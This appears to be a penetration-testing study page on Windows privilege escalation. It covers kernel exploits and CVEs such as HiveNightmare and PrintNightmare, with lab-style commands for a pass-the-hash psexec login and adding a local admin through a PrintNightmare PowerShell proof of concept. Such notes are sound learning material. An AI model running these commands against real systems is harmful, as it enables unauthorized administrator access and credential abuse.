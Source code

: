 # Windows Privesc

## Enumeration

- You can do some manual enumeration using [Windows CMD](powershell-cmd.md#cmd)
- You can also do automatic enumeration using dedicated [tools (see the tools below)](#tools)

## Kernel Exploits

### What is a kernel

![Kernel](https://upload.wikimedia.org/wikipedia/commons/thumb/8/8f/Kernel_Layout.svg/1024px-Kernel_Layout.svg.png)  
- [See the definition on Wikipedia](https://en.wikipedia.org/wiki/Kernel_(operating_system))

#### Windows kernel

![Windows kernel](https://www.thewindowsclub.com/wp-content/uploads/2019/08/Windows-Kernel.png)  
- [Windows kernel in detail here](https://www.thewindowsclub.com/what-is-a-kernel-in-os-what-are-the-types-of-kernel)

### Kernel Exploits

- [Windows Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits)
- See an example of a privesc with a kernel exploit in [this writeup](../writeups/HTB-Devel.md)

#### Methodology

1. Enumerate win version / patch level (systeminfo)
2. Find matching exploits (Google, ExploitDB, GIthub)
3. Compile and run

**ATTENTION: Kernel exploits are often unstable and could crash the system**

### Famous kernel exploit

- MS08-067 - vulnerability in the "Server" service
- MS17-010 - EternalBlue - remote code execution vulnerability
- CVE-2021-36934 HiveNightmare - SeriousSam - Windows 10 flaw that results in ANY user having rights to read the Windows registry

### Enumeration and Exploitation Examples

- `icacls c:\Windows\System32\config\SAM` check perm on SAM file
- Exploit CVE-2021-36934 with this [poc](https://github.com/cube0x0/CVE-2021-36934) you will get hash and then will be able to get a shell for instance with psexec `psexec.py INLANEFREIGHT/administrator@10.129.43.13 -hashes aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54` 
- Check for spooler service using powershell `ls \\localhost\pipe\spoolss`
- Add local admon with PrintNightmare with this [Powershell PoC](https://github.com/calebstewart/CVE-2021-1675)
  - `Set-ExecutionPolicy Bypass -Scope Process`
  - `Import-Module .\CVE-2021-1675.ps1`
  - `Invoke-Nightmare -NewUser "username" -NewPassword "password123!" -DriverName "PrintIt"`
  - Check if it worked `net user username`
- Check installed updates 
  - Powershell `systeminfo` `wmic qfe list brief` `Get-Hotfix`
  - CMD with wmic `wmic qfe list brief`
- CVE-2020-0668
  - Check out this blog [post](https://itm4n.github.io/cve-2020-0668-windows-service-tracing-eop/)
  - Use this [exploit](https://github.com/RedCursorSecurityConsulting/CVE-2020-0668)
    - Download it
    - Open it with visual studio
    - Build it
